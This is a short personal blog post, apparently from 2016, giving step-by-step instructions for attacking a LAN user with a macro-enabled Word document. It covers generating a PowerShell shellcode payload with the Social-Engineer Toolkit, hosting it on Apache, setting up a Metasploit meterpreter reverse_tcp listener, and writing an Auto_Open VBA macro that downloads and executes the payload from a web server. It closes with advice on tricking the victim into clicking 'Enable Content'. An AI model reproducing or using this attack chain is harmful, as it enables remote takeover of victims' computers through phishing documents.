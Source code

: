```yaml
---
title: MS Word Macro Exploit
date: 2016-05-23T18:54:00+00:00
author: gerryw1389
layout: single
classes: wide
permalink: /2016/05/ms-word-macro-exploit/
categories:
  - LocalSoftware
  - Security
tags:
  - MSOffice
---
```

<!--more-->

### Description:

The following is an article I read on generating an exploit for MS Word and using it to attack a LAN user.

What you will need:  
Microsoft Word  
The Social-Engineer Toolkit (preinstalled on Kali)  
Apache web server (preinstalled on Kali)  
The Metasploit Framework (also preinstalled on Kali)

### To Resolve:

1. Create the payload. On Kali, open terminal and type: `setoolkit`

2. Type `1` then `9` then `1` for `powershell alphanumeric shellcode injector`.

3. Fill in the `LHOST` variable which is your IP. This attack assumes you are on the local subnet of your victim. Then fill out the `LPORT` which is the port you want the attack to come back on. People typically keep this at `4444` but you can choose whatever. Type `no` to the start listener now.

4. Now move the payload to your web server:

   ```shell
   mv /root/.set/reports/powershell/x86\_powershell\_injection.txt /var/www/html/payload.txt  
   service apache2 start
   ```

5. Now we setup the listener:

   ```shell
   msfconsole  
   use multi/handler

   set PAYLOAD windows/meterpreter/reverse_tcp  
   set LHOST 10.10.10.200  
   set LPORT 4444  
   exploit
   ```

6. Now we need to add the command to our MS Word document:

   - Open up a blank MS Word doc and name is something like attack.docm and make sure that it is macro-enabled.

   - Go to the "View" tab => Macros => "Auto_Open" / attack.docm => Create => (paste in the following:)

   ```escape
   Sub Auto_Open()  
   Dim exec As String  
   exec = "powershell.exe ""IEX ((new-object net.webclient).downloadstring('http://10.0.0.13/payload.txt'))"""  
   Shell (exec)  
   End Sub  
   Sub AutoOpen()  
   Auto_Open  
   End Sub  
   Sub Workbook_Open()
   ```

   - At this point, you may want to obfuscate the code, but many people don't even know how to get to the macro's section of Word, much less what macro's even are so we will skip this step. If you want to know, read the article in the reference (the source).

   - Save the document

7. Now we need to convince the victim that the document is safe. The article references word trickery such as `to open the secure document, click "Enable Content"`.

### References:

["Create & Obfuscate a Virus Inside of a Microsoft Word Document"](https://null-byte.wonderhowto.com/how-to/create-obfuscate-virus-inside-microsoft-word-document-0167780)